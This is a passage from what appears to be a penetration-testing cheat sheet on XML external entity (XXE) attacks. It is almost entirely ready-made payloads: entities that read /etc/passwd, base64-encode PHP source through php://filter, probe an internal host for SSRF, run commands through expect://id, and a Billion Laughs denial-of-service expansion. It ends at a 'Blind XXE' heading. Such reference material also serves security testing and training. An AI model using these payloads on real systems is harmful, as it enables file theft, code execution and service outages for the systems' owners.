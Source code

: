 ### 15.1.1	EXPLOITING XXE TO RETRIEVE FILES [12,13]

#### 15.1.1.1	BASIC FILE RETRIEVAL

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

#### 15.1.1.2	BASE64 FILE RETRIEVAL [17]

##### 15.1.1.2.1	-

```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

##### 15.1.1.2.2	-

```
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php" > ]>
```

### 15.1.2	SSRF ATTACKS [12]

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

### 15.1.3	XXE to RCE WITH PHP [16]

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "expect://id"> ]>
```

### 15.1.4	BILLION LAUGHS ATTACK

```
<!DOCTYPE dos [
<!ENTITY dos1 "DOS Attack">
<!ENTITY dos2 "&dos1;&dos1;&dos1;&dos1;&dos1;&dos1;&dos1;&dos1;&dos1;&dos1;">
<!ENTITY dos3 "&dos2;&dos2;&dos2;&dos2;&dos2;&dos2;&dos2;&dos2;&dos2;&dos2;">
<!ENTITY dos4 "&dos3;&dos3;&dos3;&dos3;&dos3;&dos3;&dos3;&dos3;&dos3;&dos3;">
<!ENTITY dos5 "&dos4;&dos4;&dos4;&dos4;&dos4;&dos4;&dos4;&dos4;&dos4;&dos4;">
<!ENTITY dos6 "&dos5;&dos5;&dos5;&dos5;&dos5;&dos5;&dos5;&dos5;&dos5;&dos5;">
<!ENTITY dos7 "&dos6;&dos6;&dos6;&dos6;&dos6;&dos6;&dos6;&dos6;&dos6;&dos6;">
<!ENTITY dos8 "&dos7;&dos7;&dos7;&dos7;&dos7;&dos7;&dos7;&dos7;&dos7;&dos7;">
<!ENTITY dos9 "&dos8;&dos8;&dos8;&dos8;&dos8;&dos8;&dos8;&dos8;&dos8;&dos8;"> ]>
<leave><employerId>&dos9;</employerId></leave>
```

## 15.2	BLIND XXE
